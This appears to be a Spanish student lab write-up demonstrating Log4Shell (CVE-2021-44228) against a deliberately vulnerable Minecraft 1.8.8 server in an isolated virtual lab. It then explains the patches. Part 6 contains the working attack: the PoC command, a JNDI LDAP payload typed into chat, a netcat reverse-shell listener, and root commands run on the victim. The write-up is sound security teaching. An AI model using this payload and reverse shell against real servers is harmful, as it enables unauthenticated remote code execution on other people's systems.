# R4 — Guía paso a paso: Log4Shell (CVE-2021-44228) en Minecraft

En esta parte de la práctica demuestro la explotación de la vulnerabilidad Log4Shell (CVE-2021-44228) sobre un servidor de Minecraft 1.8.8 montado en mi propio laboratorio.

**Vulnerabilidad:** CVE-2021-44228 (Log4Shell) — Apache Log4j 2.x.
**Herramienta de ataque:** log4j-shell-poc (kozmer).
**Repositorio de referencia:** github.com/felixslama/log4shell-minecraft-demo.

Datos de mi laboratorio:

| Elemento                     | Valor                                                        |
| ---------------------------- | ------------------------------------------------------------ |
| Atacante                     | Kali Linux 2026.2 — `192.168.150.46`                         |
| Víctima (servidor Minecraft) | Ubuntu 26.04 + Docker — `192.168.150.22` / `192.168.122.152` |
| Red de ataque                | `red-honeypot` — `192.168.150.0/24`, aislada                 |
| Red de instalación           | `default` — `192.168.122.0/24`, con internet                 |

---

## Qué es Log4Shell

Log4Shell (CVE-2021-44228) es una vulnerabilidad crítica (CVSS 10.0) en Apache Log4j 2, la librería de logging más usada en el ecosistema Java. Afecta a las versiones 2.0-beta9 hasta 2.14.1.

El problema está en que Log4j procesa cadenas especiales con el prefijo `${jndi:...}` (Java Naming and Directory Interface). Cuando Log4j registra un mensaje que contiene esa cadena, hace una consulta a un servidor LDAP externo, descarga una clase Java desde ese servidor y la ejecuta. Eso permite la ejecución remota de código (RCE) sin ninguna autenticación.

En Minecraft, el servidor registra con Log4j todo lo que escriben los jugadores en el chat. Por tanto, basta con escribir el payload en el chat para disparar el exploit, sin necesitar ningún permiso especial ni credencial.

---

## Parte 1 — Preparación del almacenamiento y las redes

La VM víctima la creo en el pool de almacenamiento de `/home`, que tiene espacio suficiente, y la conecto a dos redes: `default` para tener internet durante la instalación, y `red-honeypot` para el ataque aislado.

El pool y la red aislada los tenía ya creados de la práctica anterior (R3). Si no existieran, los crearía con:

```bash
sudo virsh pool-define-as honeypot dir --target /home/sergio/vms-honeypot
sudo virsh pool-start honeypot
sudo virsh pool-autostart honeypot

cat > /tmp/red-honeypot.xml << 'EOF'
<network>
  <name>red-honeypot</name>
  <bridge name="virbr-hpot"/>
  <ip address="192.168.150.1" netmask="255.255.255.0">
    <dhcp>
      <range start="192.168.150.10" end="192.168.150.50"/>
    </dhcp>
  </ip>
</network>
EOF
sudo virsh net-define /tmp/red-honeypot.xml
sudo virsh net-start red-honeypot
sudo virsh net-autostart red-honeypot
```

---

## Parte 2 — Crear la VM víctima (Ubuntu Server 26.04)

Creo un disco vacío de 20 GB en el pool:

```bash
sudo qemu-img create -f qcow2 /home/sergio/vms-honeypot/minecraft-victima.qcow2 20G
```

Creo la VM arrancando desde la ISO de Ubuntu Server, conectada inicialmente a `default` para tener internet durante la instalación:

```bash
sudo virt-install \
  --name minecraft-victima \
  --memory 4096 \
  --vcpus 2 \
  --os-variant ubuntu24.04 \
  --disk path=/home/sergio/vms-honeypot/minecraft-victima.qcow2,format=qcow2,bus=virtio \
  --cdrom /home/sergio/ISOS/ubuntu-26.04.1-live-server-amd64.iso \
  --network network=default \
  --graphics spice \
  --noautoconsole
```

Tras la instalación, compruebo la IP inicial de la víctima:

```bash
ip a
```



Añado la segunda interfaz de red para que la víctima sea accesible desde Kali por la red aislada:

```bash
sudo virsh attach-interface --domain minecraft-victima \
  --type network \
  --source red-honeypot \
  --model virtio \
  --config \
  --live
```

Verifico que la víctima tiene las dos interfaces correctamente:

```bash
ip a
```



---

## Parte 3 — Instalar Docker en la víctima

Me conecto por SSH a la víctima e instalo Docker desde el repositorio oficial:

```bash
ssh sergio@192.168.122.152
sudo apt update
sudo apt install -y ca-certificates curl git
sudo install -m 0755 -d /etc/apt/keyrings
sudo curl -fsSL https://download.docker.com/linux/ubuntu/gpg -o /etc/apt/keyrings/docker.asc
sudo chmod a+r /etc/apt/keyrings/docker.asc
echo \
  "deb [arch=$(dpkg --print-architecture) signed-by=/etc/apt/keyrings/docker.asc] https://download.docker.com/linux/ubuntu \
  $(. /etc/os-release && echo "$VERSION_CODENAME") stable" | \
  sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
sudo apt update
sudo apt install -y docker-ce docker-ce-cli containerd.io
```

Verifico que Docker funciona correctamente:

```bash
sudo docker run hello-world
```



---

## Parte 4 — Preparar el servidor de Minecraft vulnerable

Clono el repositorio del laboratorio, que incluye el Dockerfile para construir el servidor vulnerable:

```bash
cd ~
git clone https://github.com/felixslama/log4shell-minecraft-demo.git
cd log4shell-minecraft-demo
```

El repositorio tiene dos carpetas: `victim/` con el servidor Minecraft y `attacker/` con el PoC. El `Dockerfile` de `victim/` usa `openjdk:8u181-jdk-alpine`, una versión antigua de Java vulnerable a Log4Shell.

Descargo el `server.jar` de Minecraft 1.8.8 desde la API oficial de Mojang. La URL exacta la obtengo consultando el manifest:

```bash
cd ~/log4shell-minecraft-demo/victim/
wget -O server.jar "https://launcher.mojang.com/v1/objects/5fafba3f58c40dc51b5c3ca72a98f62dfdae1db7/server.jar"
ls -lh server.jar
```

El jar tiene que pesar **8,0 MB**. Si pesa más de 30 MB es la versión incorrecta.



Edito el `Dockerfile` para poner el servidor en modo offline, de forma que acepte cualquier cliente sin verificar la cuenta de Mojang:

```bash
nano ~/log4shell-minecraft-demo/victim/Dockerfile
```

Contenido final del Dockerfile:

```dockerfile
FROM openjdk:8u181-jdk-alpine
EXPOSE 25565
ADD server.jar server.jar
RUN echo "eula=true" > eula.txt
RUN echo "online-mode=false" > server.properties
CMD java -Xmx1024M -Xms1024M -jar server.jar nogui
```

> El `online-mode=false` es necesario para que el servidor acepte clientes sin cuenta de Mojang, lo que me permite usar TLauncher en el laboratorio sin necesitar una licencia.

Construyo la imagen Docker y arranco el servidor vulnerable:

```bash
cd ~/log4shell-minecraft-demo/
sudo docker build victim/ -t minecraft-demo
sudo docker run --name vulnerable-server -p 25565:25565 minecraft-demo
```

Espero a que aparezca el mensaje `Done!` en los logs, que confirma que el servidor está listo:



---

## Parte 5 — Preparar el atacante en Kali

Añado una interfaz con internet a Kali para poder descargar el PoC y el JDK:

```bash
sudo virsh attach-interface --domain kali \
  --type network \
  --source default \
  --model virtio \
  --config \
  --live
```

Dentro de Kali, pido IP y clono el PoC de kozmer:

```bash
sudo dhclient
cd ~
git clone https://github.com/kozmer/log4j-shell-poc.git
cd log4j-shell-poc
pip install -r requirements.txt --break-system-packages
```

Descargo el JDK 1.8.0_20, que el PoC necesita para compilar la clase Java maliciosa:

```bash
cd ~/log4j-shell-poc
curl http://www.joaomatosf.com/rnp/java_files/jdk-8u20-linux-x64.tar.gz -o jdk-8u20-linux-x64.tar.gz
tar -xzf jdk-8u20-linux-x64.tar.gz
ls -la | grep jdk
```

La carpeta tiene que llamarse **exactamente `jdk1.8.0_20`**, porque el PoC la busca con ese nombre.



Instalo TLauncher para poder conectarme al servidor de Minecraft sin necesitar una cuenta de Mojang:

```bash
cd ~
wget -O TLauncher.zip "https://tlauncher.org/jar"
unzip TLauncher.zip
java -jar TLauncher.jar
```



Selecciono la versión **1.8.8**, escribo cualquier nombre de usuario y lo lanzo. Se abre el menú principal de Minecraft 1.8.8:



---

## Parte 6 — Lanzar el ataque

Para el ataque necesito 4 terminales simultáneas:

| Terminal          | Qué corre                         |
| ----------------- | --------------------------------- |
| 1 — Víctima (SSH) | Servidor Minecraft (`docker run`) |
| 2 — Kali          | PoC (`poc.py`)                    |
| 3 — Kali          | Listener (`nc -lvnp 9001`)        |
| 4 — Kali          | Minecraft (TLauncher)             |

**Terminal 2 — Lanzo el PoC:**

```bash
cd ~/log4j-shell-poc
python3 poc.py --userip 192.168.150.46 --webport 8000 --lport 9001
```

El PoC monta un servidor LDAP falso en el puerto 1389 y un servidor HTTP en el 8000, y me indica el payload que tengo que usar:

```
[+] Send me: ${jndi:ldap://192.168.150.46:1389/a}
```

**Terminal 3 — Pongo el listener esperando la reverse shell:**

```bash
nc -lvnp 9001
```

**Terminal 4 — En Minecraft:**

Me conecto al servidor pulsando **Multiplayer → Add Server** y añadiendo la dirección `192.168.150.22`:



Una vez dentro del servidor, verifico la conexión enviando un mensaje por el chat:



Pulso **T** para abrir el chat y escribo el payload:

```
${jndi:ldap://192.168.150.46:1389/a}
```



Al pulsar **Enter**, la cadena se manda al servidor. El servidor la registra con Log4j, que detecta el `${jndi:ldap://...}` y hace la consulta a mi servidor LDAP falso en Kali. El servidor LDAP redirige al servidor HTTP, que sirve la clase maliciosa `Exploit.class`. El servidor la ejecuta y se establece la reverse shell en mi `nc`.

En el `nc` ejecuto los comandos de demostración de una vez:

```bash
whoami && id && hostname && echo "HACKEADO POR SERGIO" > /hackeado.txt && cat /hackeado.txt && cat /server.properties | head -5
```



Soy **root** dentro del servidor de Minecraft. Puedo leer su configuración, crear ficheros o borrar el mundo del servidor, todo sin haberme autenticado en ningún momento.

---

## Parte 7 — Cómo se parchea

### En el servidor de Minecraft

Mojang publicó parches el 9-10 de diciembre de 2021 para cada versión:

**Versiones 1.17 y superiores:** añado el argumento JVM al arrancar el servidor:

```
-Dlog4j2.formatMsgNoLookups=true
```

**Versiones 1.12 a 1.16.5:** descargo el fichero de configuración oficial de Mojang y añado el argumento:

```
-Dlog4j.configurationFile=log4j2_112-116.xml
```

**Versiones 1.7 a 1.11.2:** existe un fichero de configuración específico para ese rango publicado también por Mojang.

### En cualquier aplicación Java con Log4j

La solución definitiva es **actualizar Log4j a la versión 2.15.0 o superior**, que deshabilita el lookup JNDI por defecto. Las versiones 2.16.0 y 2.17.0 añadieron protecciones adicionales contra variantes del exploit.
